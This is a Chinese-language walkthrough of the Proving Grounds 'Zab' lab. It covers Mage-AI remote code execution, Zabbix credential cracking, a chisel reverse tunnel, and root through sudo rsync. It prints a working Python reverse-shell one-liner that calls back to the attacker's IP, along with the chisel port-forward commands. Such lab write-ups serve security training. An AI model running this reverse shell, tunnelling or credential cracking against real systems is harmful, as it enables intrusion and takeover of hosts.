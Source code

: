 ```yaml
---
title: Proving Grounds Practice-Zab
date: 2025-8-13 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250813095120883](./Zab/image-20250813095120883.png)

# 6789端口

该系统是mage0.9.75，该版本存在任意代码执行，可以执行任意python脚本

[publications/2.Mage-AI - Insecure Default Authentication Setup Leading to Zero-Click RCE/README.md at main · zn9988/publications](./https://github.com/zn9988/publications/blob/main/2.Mage-AI - Insecure Default Authentication Setup Leading to Zero-Click RCE/README.md)

`步骤->左侧Pipelines->New->Standard (batch)->这里就可以看到local.txt，当然我们要命令执行->Data loader->Python->API`

在这里我们添加我们想要执行的python代码，然后运行即可

![image-20250813100752895](./Zab/image-20250813100752895.png)

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.173",6789));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

我添加了这段反弹shell的python代码，然后运行后本地监听就可以得到shell

![image-20250813100948654](./Zab/image-20250813100948654.png)

# 提权

## 数据库

![image-20250813101842429](./Zab/image-20250813101842429.png)

![image-20250813102136307](./Zab/image-20250813102136307.png)

开放了这么多端口，并且还有数据库文件，判断应该是本地还存在一个`web服务-zabbix`

连接到本地数据库，然后访问users表，其中有admin用户的账号密码，先保存下来，后面应该有用

![image-20250813101826504](./Zab/image-20250813101826504.png)

![image-20250813102001448](./Zab/image-20250813102001448.png)

使用[Hash Type Identifier - Identify unknown hashes](./https://hashes.com/en/tools/hash_identifier)识别hash类型，然后使用hashcat破解

![image-20250813102244807](./Zab/image-20250813102244807.png)

`Admin-Zabbix-dinosaur`

## 端口转发

可以查到Zabbix的服务端端口为10051，客户端端口为10050，客户端负责收集信息，将收集到的信息保存到数据库，并且通过ui绘制到服务端的web界面

`apache.conf`下说明zabbix的服务端ui文件是在`/usr/share/zabbix`

![image-20250813111005980](./Zab/image-20250813111005980.png)

查看配置文件后的确是只有本地可以访问

![image-20250813111231311](./Zab/image-20250813111231311.png)

但是`curl http://localhost:10051/zabbix`和`curl http://localhost:10050/zabbix`返回数据都是空

访问http://localhost/zabbix时显示301跳转，所以zabbix-web服务应该是在本地的80端口

![image-20250813111646236](./Zab/image-20250813111646236.png)

我们通过chisel进行端口转发，将本地的80转发到攻击机的9999端口

```shell
#靶机运行
./chisel_1.10.1_linux_amd64 client 192.168.45.173:8888 R:9999:127.0.0.1:80

#攻击机运行
./chisel_1.10.1_linux_amd64 server -p 8888 --reverse
```

然后攻击机访问http://localhost:9999/zabbix就可以成功访问到zabbix服务端的web界面

使用上面从数据库中读到的账号密码进行登录

## zabbix-getshell

网上搜索zabbix-getshell就可以搜到相关文章，先创建脚本，命令我尝试了多个，有的会报错，那么就使用第一次getshell时的python命令

![image-20250813114602220](./Zab/image-20250813114602220.png)

然后在主机这里运行刚才写好的脚本，本地监听即可

![image-20250813114711989](./Zab/image-20250813114711989.png)

![image-20250813114815250](./Zab/image-20250813114815250.png)

`zabbix`用户可以以sudo权限运行`rsync`

![image-20250813114855454](./Zab/image-20250813114855454.png)

利用该`gtfobins`中的方法即可提权

![image-20250813115004051](./Zab/image-20250813115004051.png)

![image-20250813115051671](./Zab/image-20250813115051671.png)